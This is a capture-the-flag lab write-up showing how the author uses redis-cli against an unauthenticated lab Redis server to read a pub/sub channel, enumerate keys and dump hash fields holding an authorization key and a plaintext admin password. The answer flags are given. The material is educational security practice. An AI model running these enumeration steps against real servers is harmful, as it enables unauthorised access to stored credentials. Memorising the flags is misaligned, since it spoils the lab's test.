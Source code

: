 # Network Recon III

## Challenge Description
A web application uses Redis server as the database server. The attacker has sneaked into the network on which the Redis server is present.

Please answer the following questions:
1. What message is being published on the active channel of the Redis server?
2. Find the key which contains the hash field 'authorization_key'.
3. Find the value of hash field 'admin_password' stored at the 'settings' key.

## Instructions
* Once you start the lab, you will have access to a root terminal of a Kali instance
* Your Kali has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
* The Target machine should be located at the IP address 192.X.Y.3. 

---

## Solution

Firstly, we have to find the IP address of the target machine by following the instructions. In  this case, it was `192.97.36.3`.

Then, we have to connect to the Redis server. Being completely unfamiliar with Redis, I turned to my good old friend DuckDuckGo (substitute with any other search engine of your choice) to find some documentation.

I found that the default port was 6379, and that we can use `redis-cli` to interact with the server:
```
root@attackdefense:~# redis-cli -h 192.97.36.3 -p 6379
192.97.36.3:6379> ping
PONG
```

The ping isn't necessary – I used it to see whether I'd connected properly.

### 1. Find message being published on the active channel

Looking through the documentation, I found [this page in the documentation](https://redis.io/topics/pubsub) that explains how Redis implements the "Publish/Subscribe messaging paradigm", as well as links to relevant command documentation.

To see the active channels, we can use the `PUBSUB` command:
```
192.97.36.3:6379> PUBSUB CHANNELS
1) "notifications"
```

We can then subscribe to the "notifications" channel to read the messages being published.

```
192.97.36.3:6379> SUBSCRIBE notifications
Reading messages... (press Ctrl-C to quit)
1) "subscribe"
2) "notifications"
3) (integer) 1
1) "message"
2) "notifications"
3) "Password for user 'admin' was updated."
^C
```

#### Flag 1:
```
Password for user 'admin' was updated.
```

### 2. Find key containing hash field `authorization_key`

After doing `Ctrl-C` to get out of the message display earlier, we have to reconnect to the server.

Then, we can list all keys:
```
192.97.36.3:6379> keys *
 1) "users"
 2) "greetings"
 3) "is-offline"
 4) "home_page"
 5) "config"
 6) "statistics"
 7) "active_api_keys"
 8) "blacklisted-ip"
 9) "settings"
10) "data
```

Some keys can be hash keys, which contain multiple fields. For example, in this case, `settings` is a hash key:
```
192.97.36.3:6379> type settings
hash
```

We can list the contents of this hash key:

```
192.97.36.3:6379> hgetall settings
 1) "username"
 2) "admin"
 3) "contact-no"
 4) "4123454165"
 5) "role"
 6) "sys_admin"
 7) "admin_password"
 8) "superSecretPass@123"
 9) "last_login"
10) "12/06/2019"
11) "email"
12) "admin@recon-badge.local"
```

This particular key does not contain the field we are looking for. Let's look for another hash key:

```
192.97.36.3:6379> type users
list
192.97.36.3:6379> type greetings
string
192.97.36.3:6379> type is-offline
string
192.97.36.3:6379> type home_page
string
192.97.36.3:6379> type config
hash
```

Now that we know that the key `config` is of type `hash`, let's dump the contents of `config`:
```
192.97.36.3:6379> hgetall config
 1) "authorization_key"
 2) "d9bd6d9150d3f7004830819da569aa9a"
 3) "endpoint"
 4) "api.recon-badge.local/private"
 5) "parameter"
 6) "data"
 7) "method"
 8) "POST"
 9) "parameter_type"
10) "json"
```

We can see that it lists the field name, then the value, like so:
```
1) "FIELD NAME 1"
2) "VALUE 1"
3) "FIELD NAME 2"
4) "VALUE 2"
...and so on.
```

Thus, we can get the value of `authorization_key` from the output above.

#### Flag 2:
```
d9bd6d9150d3f7004830819da569aa9a
```

### 3. Find value of hash field `admin_password` stored at `settings` key

Earlier, we got the contents of the `settings` key:
```
192.97.36.3:6379> hgetall settings
 1) "username"
 2) "admin"
 3) "contact-no"
 4) "4123454165"
 5) "role"
 6) "sys_admin"
 7) "admin_password"
 8) "superSecretPass@123"
 9) "last_login"
10) "12/06/2019"
11) "email"
12) "admin@recon-badge.local"
```

We can see that the value of the `admin_password` field is `superSecretPass@123` (Tsk, plaintext password storage again...)

#### Flag 3:
```
superSecretPass@123
```
